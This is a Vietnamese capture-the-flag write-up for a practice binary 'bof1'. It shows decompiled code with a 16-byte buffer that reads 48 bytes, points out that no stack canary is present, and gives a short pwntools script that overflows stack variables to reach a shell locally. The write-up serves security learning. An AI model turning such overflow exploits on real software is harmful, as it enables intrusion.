



**1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra file



Là file 64bit -> Mở file bằng IDA64 ta có source như sau:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 && v6 && v5 )
    system("/bin/sh");
  return 0;
}
```

Ta thấy biến buf được khai báo với 16 byte nhưng cho phép nhập 0x30 = 48byte -> Nghĩ ngay đến lỗi bof

Dùng lệnh 'checksec' kiểm tra ta thấy:



Ta thấy canary đang ở trạng thái disabled nên có thể khai thác bằng bof

**2. Ý tưởng**

Đọc source ta thấy nếu thay đổi giá trị v7, v6, v5 thì sẽ có được shell

**3. Viết script**

Để nhập từ buf đến v7 cần: 0x30 - 0x4 = 44

Ta có script như sau:

```
from pwn import *

r = process("./bof1")

payload = b'a'*44
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

